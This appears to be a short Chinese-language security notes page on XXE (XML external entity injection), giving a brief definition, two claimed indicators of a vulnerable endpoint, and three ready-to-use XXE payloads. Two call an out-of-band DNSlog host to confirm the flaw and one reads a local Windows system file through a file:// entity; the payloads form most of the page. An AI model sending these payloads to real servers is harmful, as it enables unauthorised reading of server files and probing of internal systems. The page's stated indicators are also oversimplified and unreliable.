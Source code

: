 # 

# XXE漏洞

XXE漏洞——XML外部实体注入漏洞，通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

​	

## XXE的特征

- URL的后缀是 `.ashx`
- 响应体是XML

​	

## payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "60m4f9.dnslog.cn" > %xxe; ]>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "60m4f9.dnslog.cn">
]>
<r>&sp;</r>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">
]>
<r>&sp;</r>
```


